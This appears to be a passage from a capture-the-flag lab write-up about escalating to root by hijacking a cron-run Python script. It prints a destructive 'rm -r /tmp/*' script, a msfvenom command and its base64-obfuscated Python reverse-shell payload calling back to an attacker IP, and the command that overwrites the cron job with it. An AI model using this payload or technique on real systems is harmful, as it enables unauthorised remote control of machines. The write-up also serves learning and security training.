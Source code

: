 
So lets check what this file is about.

```{r, engine='bash', sh}
cat /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Ok so that file seems to run python and deletes all files and folders in /tmp.
So the next steps im taking are, creating a file in /tmp and wait that it gets deleted.
After confirming that it actually deletes it we can be sure that it´s some kind of cronjob 
executing it.

by running crontab -l we can confirm that it is indeed not "mindy" executing this script.

So lets try to escalate our privilege by creating a new msf payload.
Then we start the msf reverse handler, overwrite the python file and wait for the cronjob to execute our payload.
( that step could be easier to exploit. But i dont wanna spoil the challenge for other users that are with me on the box at the same time )

```{r, engine='bash', sh}
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=8888
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 450 bytes
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjEwLjE0LjQwJyw4ODg4KSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))
```

Then we get the handler running and inject our payload in the file.

```{r, engine='bash', sh}
echo "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjEwLjE0LjQwJyw4ODg4KSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))" > /opt/tmp.py
```

Now we wait a minute, payload executes, shell spawns.

```{r, engine='bash', sh}
whoami
root
/cat/root.txt
b4c9723a28899b1c45db281d99cc87c9
```

